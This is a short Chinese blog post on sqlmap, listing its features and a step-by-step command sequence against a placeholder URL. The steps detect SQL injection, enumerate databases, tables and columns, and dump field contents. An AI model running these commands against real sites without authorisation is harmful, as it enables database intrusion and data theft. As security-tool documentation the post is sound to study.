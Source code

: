 ```yaml
---
layout: post
title: "Sqlmap常用参数及说明"
date: 2017-07-01
description: "Sqlmap常用参数及说明"
tag: 安全工具
---
```


## Sqlmap 特点
```
·数据库支持MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM DB2、SQLite、Firebird、Sybase 和 SAPMaxDB
·SQL注入类型包括SQL盲注、UNION注入、显错式注入、时间盲注、盲推理注入和堆查询注入等技术
·支持枚举用户、密码哈希、权限、角色、数据库、表和列
·支持执行任意命令
·自动识别密码加密方式，并且可以使用字典解密
·支持数据导出功能
```

### 使用说明：

注入点：www.xxx.com/user.jsp?id=1

#### 1.判断注入是否存在
```
sqlmap.py -u "www.xxx.com/user.jsp?id=1"
```
#### 2.获取数据库（Access数据库不需要获取）
```
sqlmap.py -u "www.xxx.com/user.jsp?id=1" --dbs
```
#### 3.查看当前应用程序所用数据库（Access数据库不需要获取）
```
sqlmap.py -u "www.xxx.com/user.jsp?id=1" --current-db
```
#### 4.列出指定数据库的所有表
####(-D 后面跟上一步获取到的数据库名字，Access数据库不需要加-D参数)
```
sqlmap.py -u "www.xxx.com/user.jsp?id=1" --table -D "数据库"
```
#### 5.读取指定表中的字段名称
```
sqlmap.py -u "www.xxx.com/user.jsp?id=1" --columns -T "数据表" -D "数据库"
```
#### 6.读取指定字段内容
```
sqlmap.py -u "www.xxx.com/user.jspid=1" --dump -C"字段" -T "数据表" -D "数据库"
```

在读取数据后，Sqlmap会把读取的数据转存到Sqlmap/output/目录下，文件以"Table.cvs"保存。
